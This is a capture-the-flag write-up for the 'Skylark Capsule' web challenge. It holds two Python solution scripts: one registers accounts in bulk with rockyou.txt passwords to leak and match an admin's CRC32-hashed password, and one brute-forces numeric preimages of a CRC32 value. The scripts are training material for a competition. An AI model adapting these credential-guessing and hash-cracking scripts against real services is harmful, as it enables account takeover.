 ```yaml
---
name: Skylark Capsule (2021)
event: Hacky Holidays Space Race CTF 2021
category: Web
description: Writeup for Skylark Capsule (Web) - Hacky Holidays Space Race CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Skylark Capsule

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hY446_xs-DE/0.jpg)](https://youtu.be/hY446_xs-DE?t=3860s "Hacky Holidays Space Race 2021: Skylark Capsule")

## Challenge Description

> We have the best capsules available for your deployment into space!

## Solution

#### brute.py

{% code overflow="wrap" %}
```py
from pwn import *
import requests
import json

# Change between info/debug for more verbosity
context.log_level = 'debug'

url = 'https://todo.challenge.hackazon.org'
wordlist = open('/usr/share/wordlists/rockyou.txt', 'r')
admin_pw = '-432570933'  # Got this from part 1 of challenge

for count, password in enumerate(wordlist):
    headers = {}
    password = password.strip()
    if password:
        # Creds to try
        credentials = {
            'username': 'y' + str(count),
            'email': str(count),
            'password': password
        }

        # Register new account
        response = requests.post(url + "/user/register", json=credentials)
        del credentials['email']  # Don't need email to login

        # Login with new account
        response = requests.post(url + "/user/login", json=credentials)

        # Assign JWT token as auth header
        headers['Authorization'] = 'Bearer ' + json.loads(response.text)['token']

        # Get capsule spec
        response = requests.get(url + "/user/capsule", headers=headers)

        # Extract the password
        hashed_pw = json.loads(response.text)['data'][0]['password']
        debug(admin_pw + ': ' + hashed_pw + ' (' + password + ')')

        # If we get a match, quit!
        if hashed_pw == admin_pw:
            print("Success! Correct password was: " + password)
            wordlist.close()
            quit()

        # Track progress / performance
        if((count + 1) % 100 == 0):
            print(str(count + 1) + " attempts so far..")

# Maybe we need new password list?
print("Failed to find correct password :(")
wordlist.close()
```
{% endcode %}

#### hashcrack.py

{% code overflow="wrap" %}
```py
from pwn import *
import zlib

wordlist = open('/usr/share/wordlists/rockyou.txt', 'r')
admin_pw = -432570933
initial_pw = 'skylark'

for count in range(99999999999):
    password = str(count)
    hashed_pw = zlib.crc32(password.encode())
    print(hashed_pw)
    # If we get a match, quit!
    if hashed_pw == admin_pw:
        print("Success! Correct password was: " + password)
        wordlist.close()
        quit()

    # Track progress / performance
    if((count + 1) % 100 == 0):
        print(str(count + 1) + " attempts so far..")

# Maybe we need new password list?
print("Failed to find correct password :(")
wordlist.close()
```
{% endcode %}
